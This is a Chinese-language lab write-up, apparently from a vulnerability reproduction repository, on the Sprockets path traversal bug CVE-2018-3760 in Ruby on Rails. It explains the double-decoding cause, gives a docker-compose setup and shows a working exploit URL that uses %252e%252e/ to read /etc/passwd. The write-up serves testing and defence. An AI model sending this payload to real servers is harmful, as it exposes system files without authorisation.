


# Ruby On Rails 路径穿越漏洞（CVE-2018-3760）

Ruby On Rails在开发环境下使用Sprockets作为静态文件服务器，Ruby On Rails是著名Ruby Web开发框架，Sprockets是编译及分发静态资源文件的Ruby库。

Sprockets 3.7.1及之前版本中，存在一处因为二次解码导致的路径穿越漏洞，攻击者可以利用`%252e%252e/`来跨越到根目录，读取或执行目标服务器上任意文件。

参考链接：

- https://i.blackhat.com/us-18/Wed-August-8/us-18-Orange-Tsai-Breaking-Parser-Logic-Take-Your-Path-Normalization-Off-And-Pop-0days-Out-2.pdf
- https://seclists.org/oss-sec/2018/q2/210
- https://xz.aliyun.com/t/2542

## 环境搭建

启动一个用Ruby On Rails脚手架生成的默认站点：

```
docker-compose up -d
```

访问`http://your-ip:3000`即可查看到欢迎页面。

## 漏洞复现

直接访问`http://your-ip:3000/assets/file:%2f%2f/etc/passwd`，将会报错，因为文件`/etc/passwd`不在允许的目录中：



我们通过报错页面，可以获得允许的目录列表。随便选择其中一个目录，如`/usr/src/blog/app/assets/images`，然后使用`%252e%252e/`向上一层跳转，最后读取`/etc/passwd`：

```
http://your-ip:3000/assets/file:%2f%2f/usr/src/blog/app/assets/images/%252e%252e/%252e%252e/%252e%252e/%252e%252e/%252e%252e/%252e%252e/etc/passwd
```


